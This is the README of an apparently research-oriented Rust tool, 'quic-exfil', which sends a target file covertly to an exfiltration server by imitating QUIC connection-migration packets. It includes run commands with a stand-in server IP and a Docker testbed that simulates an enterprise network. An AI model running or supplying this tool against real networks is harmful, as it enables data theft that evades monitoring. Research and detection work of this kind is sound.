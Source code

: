 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![Libraries.io dependency status for GitHub repo](https://img.shields.io/librariesio/github/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub](https://img.shields.io/github/license/thomasgruebl/quic-exfil?style=plastic)
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">
<img src="https://img.shields.io/github/stars/thomasgruebl/quic-exfil.svg?style=plastic" alt="Stars">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">
<img src="https://img.shields.io/github/forks/thomasgruebl/quic-exfil.svg?style=plastic" alt="Forks">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">
<img src="https://img.shields.io/github/issues/thomasgruebl/quic-exfil.svg?style=plastic" alt="Issues">
</a>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

Add descr on how to install quiche on the base machine -> and start quiche server to listen for benign connection migrations 
./target/release/quiche-server --listen 192.168.100.63:4433 --root html --cert apps/src/bin/cert.crt --key apps/src/bin/cert.key --enable-active-migration


QUIC-exfiltration client-side Wireshark trace (without the required server-side acknowledgments)
* 2a05:d012:8ef:f66:12d3:23ac:6791:a11f is the exfiltration server IP
* Packet 54622 mimics the PATH_CHALLENGE packet

![Alt text](images/wireshark.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.